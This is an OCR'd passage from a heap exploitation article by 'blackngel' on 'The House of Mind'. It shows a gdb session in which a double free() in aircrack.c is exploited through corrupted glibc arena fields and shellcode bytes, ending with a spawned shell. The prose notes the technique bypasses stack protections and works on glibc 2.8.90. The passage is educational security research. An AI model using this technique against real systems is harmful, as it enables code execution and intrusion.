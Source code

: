 /* STACK DUMP */
(gdb) x/4x 0xbffff434    // av->max_fast // av->fastbins[0]
0xbffff434:   0x00000000     0xbffff518     0x0804ce52     0x080483ec

(gdb) x/x 0xbffff434 + 1848  /* av->system_mem */
0xbffffb6c:	0x3d766d77

(gdb) x/4x 0x08100048-8+20   /* nextchunk->size */
0x8100054:  0x00000009   0x90909090   0xe983c931   0xd9eed9f4
(gdb) c
Continuing.

Breakpoint 2, fvuln () at linux/aircrack.c:2303
2303	        printf("\nEND second free()\n");

(gdb) x/4x 0xbffff434                 // EIP = &(p)
0xbffff434:  0x00000000   0xbffff518   0x08100040   0x080483ec
(gdb) c
Continuing.

END second free()
[New process 8312]
uid=1000(blackngel) gid=1000(blackngel) groups=4(adm),20(dialout),
24(cdrom),25(floppy),29(audio),30(dip),33(www-data),44(video),
46(plugdev),104(scanner),108(lpadmin),110(admin),115(netdev),
117(powerdev),1000(blackngel),1001(compiler)

Program exited normally.

[-----]

The advantage of this method is that it does not touch at any time the EBP
register, and thus we can skip some protection to BoF.

It is also noteworthy that the two methods presented here, in The House of
Mind, are still applicable in the most recent versions of glibc, I have
checked it with the latest version of GLIBC 2.8.90.

This time we have arrived, walking with lead foot and after a long
journey, to The House of Mind.



                 << Solo existen 10 tipos de personas: los que
                    saben binario y los que no. >>

                                                       [ XXX ]



               -----------------------
---[ 4.1.2 ---[   av->top NIGHTMARE   ]---
               -----------------------

Once I had completed the study of The House of Mind, tracking down a
little more code in search of other possible attack vectors, I found
something like this at _int_free ():

[-----]
